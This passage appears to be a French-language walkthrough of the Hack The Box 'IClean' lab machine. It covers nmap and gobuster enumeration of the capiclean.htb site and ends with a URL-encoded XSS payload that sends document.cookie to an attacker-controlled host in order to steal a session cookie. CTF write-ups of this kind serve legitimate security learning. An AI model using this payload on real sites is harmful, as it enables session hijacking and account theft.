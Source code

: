 Nmap découvre deux ports ouverts 22 (SSH) et 80 (HTTP - Apache).

Nous sommes redirigés vers `capiclean.htb` lorsque nous essayons d'accéder au serveur web. Nous devons l'ajouter au fichier `/etc/hosts` pour accéder au site web.

```
sudo echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

## Enumération

L'application web est un service de nettoyage.

![IClean website](/images/HTB-IClean/capiclean.png)

Nous avons deux fonctionnalités susceptibles d'être exploitées. 

* `http://capiclean.htb/quote` (en utilisant le bouton `GET A QUOTE`) nous conduit à un formulaire où nous pouvons sélectionner les services que nous désirons et entrer une adresse e-mail.

![capiclean quote](/images/HTB-IClean/capiclean-quote.png)

Après avoir soumis une adresse e-mail, nous arrivons à `http://capiclean.htb/sendMessage`.

![capiclean quote thank you message](/images/HTB-IClean/capiclean-quote2.png)

* `http://capiclean.htb/login` conduit à un formulaire de connexion avec les identifiants habituels (nom d'utilisateur et mot de passe).

![capiclean login](/images/HTB-IClean/capiclean-login.png)

Avec gobuster, nous trouvons `/dashboard` mais nous sommes redirigés vers la page d'accueil lorsque nous essayons d'y accéder, probablement parce que nous n'avons pas de cookie valide.

```
gobuster dir -u http://capiclean.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![directory brute forcing](/images/HTB-IClean/gobuster.png)

Nous interceptons la requête que nous recevons après avoir soumis le courriel à `/quote`, puisqu'il y a une fonction de connexion mais pas de bouton pour s'inscrire, essayons de voler un cookie de session afin d'accéder aux autres pages.

![Request intercepted](/images/HTB-IClean/quote-request.png)

Nous utilisons notre payload avant d'envoyer la requête.

![XSS cookie steal](/images/HTB-IClean/XSS-cookie-steal.png)

**XSS Payload**

```
<img+src%3dx+onerror%3dthis.src%3d"http%3a//<IP_ADDRESS>%3a<PORT_NUMBER>/cookie.php"%2bbtoa(document.cookie)>
```
